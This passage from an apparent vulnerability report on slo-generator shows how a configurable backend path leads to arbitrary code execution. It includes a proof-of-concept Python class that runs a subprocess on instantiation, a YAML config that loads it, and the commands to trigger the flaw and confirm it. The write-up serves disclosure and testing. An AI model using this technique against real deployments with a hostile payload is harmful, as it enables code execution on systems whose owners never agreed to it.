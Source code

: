             D --> E(import_dynamic in utils.py);
            E --> F[Dynamic Import and Instantiation of Class];
            F --> G(Arbitrary Code Execution);
        ```

- **Security Test Case:**
    1. Create a malicious Python file `malicious_code.py` in the `samples/custom/` directory with the following content:
    ```python
    # /code/samples/custom/malicious_code.py
    import subprocess
    import logging

    logging.basicConfig(level=logging.INFO)
    logger = logging.getLogger(__name__)

    class MaliciousBackend:
        def __init__(self, **kwargs):
            logger.info("MaliciousBackend __init__ called")
            subprocess.run(["touch", "/tmp/slo-generator-pwned"], shell=False, check=True)
            logger.info("File '/tmp/slo-generator-pwned' created.")

        def good_bad_ratio(self, timestamp, window, slo_config):
            logger.info("MaliciousBackend good_bad_ratio called")
            return (100, 0)

        def query_sli(self, timestamp, window, slo_config):
            logger.info("MaliciousBackend query_sli called")
            return 0.999
    ```
    2. Create a malicious SLO configuration file `malicious_slo.yaml` in the `/code/samples/custom/` directory with the following content:
    ```yaml
    # /code/samples/custom/malicious_slo.yaml
    apiVersion: sre.google.com/v2
    kind: ServiceLevelObjective
    metadata:
      name: malicious-slo
      labels:
        service_name: malicious
        feature_name: exploit
        slo_name: code-execution
    spec:
      description: SLO with malicious backend for code execution test
      backend: samples.custom.malicious_code.MaliciousBackend
      method: good_bad_ratio
      service_level_indicator: {}
      goal: 0.99
    ```
    3. Run the slo-generator `compute` command with the malicious SLO configuration and a sample shared configuration:
    ```sh
    ./slo-generator compute -f /code/samples/custom/malicious_slo.yaml -c /code/samples/config.yaml
    ```
    4. After running the command, check if the file `/tmp/slo-generator-pwned` has been created:
    ```sh
    ls -l /tmp/slo-generator-pwned
    ```
    - If the file `/tmp/slo-generator-pwned` exists, it confirms that the malicious code from `MaliciousBackend` class was executed, demonstrating arbitrary code execution vulnerability.
